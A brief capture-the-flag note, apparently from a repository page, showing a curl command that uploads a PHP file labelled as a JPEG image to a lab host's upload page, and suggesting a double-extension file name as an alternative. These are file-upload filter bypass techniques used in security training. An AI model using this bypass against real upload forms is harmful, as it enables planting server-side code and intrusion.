 ### CTF

    curl -v -F "Upload=Upload" -F "uploaded=@./test.php;type=image/jpg" http://172.20.10.4/\?page\=upload

Alternatively, upload a file in the likes of "test.jpg.jpg".
